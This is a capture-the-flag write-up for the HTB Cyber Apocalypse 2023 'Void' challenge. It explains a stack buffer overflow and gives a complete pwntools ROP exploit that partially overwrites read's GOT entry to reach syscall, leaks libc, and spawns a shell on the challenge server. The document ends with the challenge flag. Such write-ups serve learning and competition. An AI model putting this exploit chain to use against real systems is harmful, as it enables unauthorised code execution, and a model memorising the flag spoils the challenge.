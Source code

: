 # Void - HTB Cyber Apocalypse 2023

## Description
```
The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.
```

## Solution
The binary is tiny, and only calls read to take our user input. This has a buffer overflow in it.

Checksec
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./glibc/'
```

This is obviously a ret2dlresolve challenge.

However I don't like ret2dlresolve as I don't know how to do it. And to be honest I feel like the technique is not even useful at all. So far I've solved 12/12 challenges which had the intended solution of using ret2dlresolve, without using ret2dlresolve. I'm not about to start learning the technique now!

Since the binary uses read, I took a look at the LSB of read in the GOT, to see if I could overwrite it to become syscall. The answer to that question is yes.

The general flow of exploitation with ROP is then:

1. Call read to overwrite the LSB of the read GOT. So it becomes syscall instead
2. Since overwriting LSB is a one byte read. RAX contains 1. We can now call the Read GOT and instead leak the full GOT
3. Restore the read GOT by jumping to read plt+6. This will re-resolve read and restore its GOT
4. Receive leak and pop shell

Exploit:

```py
from pwn import *

context.binary = "./void"
padding = b'A'*72

io = remote("165.232.108.240",30338)

poprsir15 = p64(0x00000000004011b9)
read = p64(0x00401030)
vuln = p64(0x00401122)
ret = p64(0x0000000000401016)
re_resolve_read = p64(0x00401036)
poprdi = p64(0x00000000004011bb)



payload = [
    #Overwrite LSB so read becomes syscall
    padding,
    poprsir15,
    p64(0x404018),
    p64(0xdeadbeef),
    read,
    #Leak the GOT. RAX is already 1
    poprsir15,
    p64(0x404018),
    p64(0xdeadbeef),
    poprdi,
    p64(0x1),
    read,
    #Resolve read back to being read again
    poprdi,
    p64(0x0),
    re_resolve_read,
    vuln
]
payload = b''.join(payload)
sleep(0.1)
io.send(payload)
sleep(0.1)
io.send(b'\x8c')
sleep(0.1)
io.send(b'\x80')

#Receive leak
leak = u64(io.recv(8))
libc_base = leak-0xec78c
print(f"LIBC BASE {libc_base:#x}")


#Spawn shell
poprsi = p64(libc_base+0x000000000002590f)
poprdx = p64(libc_base+0x00000000000c8acd)
poprax = p64(libc_base+0x000000000003be88)
syscall = p64(libc_base+0x00000000000550da)
binsh = p64(libc_base+0x00196152)


payload = [
    padding,
    poprdi,
    binsh,
    poprsi,
    p64(0),
    poprdx,
    p64(0),
    poprax,
    p64(59),
    syscall
]

payload = b''.join(payload)
sleep(0.1)
io.send(payload)


io.interactive()
```

## Flag
As expected. The intended solution was ret2dlresolve, and now I'm 13/13 :D

`HTB{r3s0lv3_th3_d4rkn355}`
